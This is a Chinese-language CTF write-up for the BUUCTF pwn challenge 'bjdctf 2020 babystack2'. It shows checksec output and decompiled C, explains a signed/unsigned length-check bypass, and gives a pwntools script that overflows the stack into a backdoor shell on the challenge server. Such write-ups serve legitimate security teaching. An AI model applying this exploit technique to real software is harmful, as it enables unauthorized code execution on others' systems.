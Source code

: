 ```yaml
---
author: 
  name: Zephyr
title: bjdctf 2020 babyrop2
date: 2022-3-22 23:17:03
permalink: /pages/2e1547494524d192
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# bjdctf 2020 babyrop2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/bjdctf_2020_babystack2/bjdctf_2020_babystack2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-10h]
  size_t nbytes; // [rsp+Ch] [rbp-4h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  LODWORD(nbytes) = 0;
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("* And Welcome to the bin world!  *");
  puts("*  Let's try to pwn the world!   *");
  puts("* Please told me u answer loudly!*");
  puts("[+]Are u ready?");
  puts("[+]Please input the length of your name:");
  __isoc99_scanf("%d", &nbytes);
  if ( (signed int)nbytes > 10 )
  {
    puts("Oops,u name is too long!");
    exit(-1);
  }
  puts("[+]What's u name?");
  read(0, &buf, (unsigned int)nbytes);
  return 0;
}
```

backdoor函数如下

```c
signed __int64 backdoor()
{
  system("/bin/sh");
  return 1LL;
}
```

## 思路分析

1. 目前信息：
   - 控制`nbytes`即可实现任意长度数据写入
   - `nbytes`被`if`判断限制在`10`
   - `if`判断`nbytes`时是有符号数，`read`时是无符号数
   - 有后门函数
   - No PIE
2. 思路：
   - 利用有符号数和无符号数的区别，绕过判断，实现溢出劫持程序流到后门函数获得`shell`

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/bjdctf_2020_babystack2/bjdctf_2020_babystack2'
io = remote('node4.buuoj.cn', 28880)
# io = process(pwnfile)
elf = ELF(pwnfile)
backdoor_addr = elf.symbols['backdoor']
offset = 0x10+8
io.sendlineafter('your name:', '2147483649')
payload = flat(['a'*offset, backdoor_addr])
io.sendlineafter('u name?\n', payload)
io.interactive()
```